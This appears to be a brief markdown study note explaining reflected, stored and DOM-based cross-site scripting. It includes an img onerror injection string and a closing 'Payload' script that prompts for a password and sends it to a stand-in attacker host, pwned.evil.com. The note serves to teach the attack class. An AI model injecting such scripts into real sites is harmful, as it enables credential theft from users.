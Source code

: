 # Cross Site Scripting (XSS)

There are 3 common forms of XSS: reflected, stored and DOM based XSS

## Reflected XSS

When the input is immediately used in a web app. 

Example: textbox prompting for you to write your name and a display that says "HI:--------------- " as you write your name the dash are replaced by your input.

The code is executed "immediately" as you use it in the page.

## Stored XSS

When code is inserted in database and might be rendered when a user opens a forum board or comments section.

database:

```
ID|Message
-----------
123|<script></script>
```

## DOM based XSS

This is one the of the stealthiest attack as it is not stored in server logs.

```
<img src="pwnd" onerror="alert('XSS')">
```

### Payload

```
<script>
  var passwd=prompt("Gimme your password, PLZ!");
  var xhr=new XMLHttpRequest();
  xhr.open("GET","https://pwned.evil.com/log?password=".concat(encodeURI(passwd)));
  xhr.send();
</script>
```

